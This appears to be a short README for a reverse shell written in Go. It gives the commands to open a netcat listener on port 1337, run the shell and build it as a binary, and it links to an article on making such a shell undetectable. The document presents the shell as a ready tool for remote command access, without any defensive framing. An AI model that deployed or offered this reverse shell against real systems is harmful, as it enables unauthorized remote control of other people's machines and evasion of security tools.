 # Golang Reverse Shell

```bash
# start local server
nc -lvp 1337
nc -l 1337

# start reverse shell
go run main.go

# build binary
go generate
```

## References

- [Undetectable Reverse shell with golang](https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1)
- [yougg/reversecmd.go](https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e)

